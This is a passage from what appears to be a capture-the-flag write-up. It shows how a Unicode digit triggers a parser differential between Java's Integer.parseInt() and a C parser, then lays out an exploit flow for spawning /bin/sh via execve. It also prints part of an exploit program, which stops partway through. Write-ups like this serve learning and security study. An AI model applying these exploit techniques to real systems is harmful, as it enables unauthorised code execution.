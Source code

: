 Fortunately, while I was trying to test the behaviour of `Integer.parseInt()` with values like '\x0a'(newline) or '\x00' null byte, I came across this [article](https://stackoverflow.com/questions/3613759/x-escape-in-java) as I tried to use hex escapes in my Java code. While reading the accepted answer, I immediately realised how to achieve this parser differential.
> Strings in Java are always encoded in UTF-16, so it uses a Unicode escape: \u0048. Octal characters are supported as well: \110
>
> ~erickson

*Stack overflow to the rescue as usual*

Ｓｏ ｗｈａｔ＇ｓ ｓｏ ｇｒｅａｔ ａｂｏｕｔ ｕｎｉｃｏｄｅ？ Using unicode, we are able to force this parser differential between `Integer.parseInt()` in a Java context, and the `intbracket()` in C. Here is an example to showcase this difference in how the two parse unicode.

```
Let's use this devangari digit six, ( ६ )

In Java,
    Integer.parseInt("६") = 6

In C,
    // in the internal buffer ६ is actually 3 bytes (\xe0\xa5\xac) 
    intbracket("\xe0\xa5\xac") = -9522 // 0xffffdace 
```

Now, we should have all the bugs we need to exploit this challenge!

# Finishing touches

I will briefly go through the exploitation flow that I used in this challenge. Since we want to get a shell, we would want to call the `execve` syscall with the following arguments, `rdi = pointer to "/bin/sh\x00"`, `rsi=0; rdx=0`, `rax=59 (execve syscall number)`. As we can effectively only run 2 bytes of shellcode at a time, we can ease our exploitation by forming the "/bin/sh\x00" string in memory using the constructs provided to us by the intermediate code. However, since we are limited in the value that we can place into the registers, I used a for loop to repeatedly increment the value of the eax register to 0x68732f("/sh\x00") and 0x6e69622f("/bin"), placing these values in the `rw-` region that is allocated for our code. However, one issue that occurred is that as mentioned [earlier](#overview), we are limited to jumping 10000 times (limited by the value of ecx). To solve this issue, I used the parser differential bug, to run 2-bytes of arbitrary shellcode twice, in order to change the value of rcx to something larger

{% highlight C %}
const char * prog[] = {
    "JMP(\xe0\xa5\xac)",
    ///////////// 0
    "MOV(A, 95318)",        // push rsi
    "JMP(\xe0\xa5\xae)",
    "MOV(A, 95321)",        // pop rcx
    "MOV(A, 0)",
    "CMP(A, 68)",           // (5) <---a
    ///////////// 5
    "JEQ(14)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    "LDR(A, 1)",            // load value from 1
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 1)",            // store value in 1
    ///////////// 10
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    "JMP(5)",               // a------->
    "LDR(A, 1)",
    "ADD(A, 45299)",        // value += 45299 => 0x68732f
    ///////////// 15
    "STR(A, 1)",            // save "/sh" in 1
